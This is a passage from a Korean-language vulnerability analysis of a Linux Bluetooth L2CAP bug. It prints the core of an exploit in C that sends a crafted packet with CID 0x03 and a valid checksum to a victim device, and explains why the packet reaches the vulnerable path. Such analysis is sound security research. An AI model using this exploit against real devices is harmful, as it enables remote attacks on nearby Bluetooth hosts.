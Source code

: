 ## Analysis #4 exploit
exploit 코드가 우리가 분석한 내용과 일치하는 구조로 구성되어있는지 확인해보자. 소켓 설정 및 초기 bluetooth 연결부는 생략했다.
```c++
#define AMP_MGR_CID 0x03

// ...

int main(int argc, char **argv) {
  
  // ...

  printf("[*] Connecting to victim...\n");

  // ...

  uint16_t hci_handle = l2_conninfo.hci_handle;
  printf("[+] HCI handle: %x\n", hci_handle);

  printf("[*] Sending malicious L2CAP packet...\n");
  struct {
    l2cap_hdr hdr;
    uint16_t ctrl;
    uint16_t fcs;
  } packet = {0};
  packet.hdr.len = htobs(sizeof(packet) - L2CAP_HDR_SIZE);
  packet.hdr.cid = htobs(AMP_MGR_CID);
  packet.fcs = crc16(0, &packet, sizeof(packet) - 2);
  hci_send_acl_data(hci_socket, hci_handle, &packet, sizeof(packet));

  close(l2_sock);
  hci_close_dev(hci_socket);

  return 0;
}
```
취약한 로직으로 분기하기 위해 `hdr.cid`를 `0x3`으로 설정하는 것을 확인할 수 있다. 체크섬 통과를 위한 `fcs` 필드도 설정했기 때문에 중간에 `goto drop`으로 분기되지 않고 성공적으로 트리거할 수 있다.